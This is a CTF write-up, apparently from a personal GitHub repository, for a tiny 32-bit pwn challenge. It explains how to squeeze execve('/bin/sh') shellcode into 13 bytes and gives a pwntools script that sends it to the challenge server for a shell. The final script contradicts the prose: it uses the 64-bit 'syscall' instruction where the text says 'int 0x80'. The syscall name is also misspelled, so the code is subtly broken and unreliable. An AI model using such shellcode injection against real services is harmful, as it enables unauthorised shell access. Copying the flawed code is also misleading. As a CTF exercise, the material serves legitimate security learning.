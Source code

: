 Tinypwn was the first pwn challenge I encountered in the CTF. It was a small 32-bit binary, just 69 bytes, and did the following:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/6008e3e6-3580-465c-a798-93f0f536cba2)

Writing 0xd bytes into the stack and jumping to it lets us execute a shellcode of size 0xd. To set up `exceve(/bin/sh)` shellcode, I ran `strings --radix=x tinypwn`. This showed that the string `/bin/sh` is located at offset 0x20, and the binary base is 0x10000, meaning `/bin/sh` is at 0x10020.
To execute `/bin/sh` via the `exceve` syscall, we need `eax=0xb` (the syscall number), `ebx=/bin/sh`, `edx=0`, and `ecx=0` as parameters. However, we can only write 0xd bytes, so we need to be creative. The instruction `mov eax, 0xb` is 5 bytes, which is too long.
We can leverage the fact that syscalls put their return value in `eax`. For example, the read syscall will return the number of bytes read. This lets us write exactly 0xb bytes, saving us the instruction `mov eax, 0xb`. We can then write `xor edx, edx` and `xor ecx, ecx` (2 bytes each), `mov ebx, 0x10020` (5 bytes), and `int 0x80` (2 bytes).
This adds up to 0xb bytes exactly what we needed and we successfully exploited this challenge.
Final code:
```py
from pwn import *
p = remote("vsc.tf" , 3026)
a = """
xor edx, edx\n
xor ecx, ecx\n
mov ebx, 0x10020\n
syscall\n
"""

p.send(asm(a))

p.interactive()
```
